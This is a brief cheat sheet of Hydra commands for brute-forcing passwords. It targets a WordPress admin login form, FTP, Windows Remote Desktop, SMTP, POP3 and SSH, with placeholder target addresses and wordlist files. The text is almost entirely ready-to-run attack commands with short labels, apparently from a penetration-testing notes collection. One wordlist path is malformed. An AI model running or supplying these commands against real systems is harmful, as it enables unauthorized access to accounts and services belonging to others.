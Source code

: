 				brute force a Wordpress admin login
hydra -l admin -P passwords.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
 
				FTP known user and rockyou password list
hydra -t 1 -l admin -P passwords.txt -vV $ip ftp

				attack Windows Remote Desktop
hydra -t 1 -V -f -l administrator -P passwords.txt rdp://$ip

				SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V

				POP3 Brute Force
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V

				FTP
hydra  -l admin -P wordlists.txt -vV $IP ftp

				SSH
### Bruteforce password
`hydra -l username -P wordlist.txt $IP ssh`

### Bruteforce Username and Password
`hydra -L users.txt -P passwords.txt -t 1 -u $ip ssh`